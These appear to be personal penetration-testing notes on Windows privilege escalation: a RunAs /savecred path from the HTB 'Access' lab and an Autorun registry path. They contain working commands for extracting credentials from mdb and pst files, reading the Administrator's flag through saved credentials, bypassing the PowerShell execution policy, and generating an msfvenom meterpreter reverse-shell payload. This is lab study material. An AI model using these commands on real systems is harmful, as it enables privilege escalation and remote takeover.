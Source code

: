 
# Escalation Path: RunAs 



## Overview
Allow us to run a command as somebody else

### FootHold - Access htb
Enter the FTP, grab the files
```bash
mdb-sql <db.mdb> 
```

open auth_user
```bash
readpst <pst file>
```

- grab user and password
- login through telnet



### Escalation
```powershell
cmdkey /list

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```



# Escalation Path: Registry



## Overview of Autoruns
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

Run powerUp to identify the autorun vulnerabilty:
```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

### Escalation via Autorun
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o program.exe
```
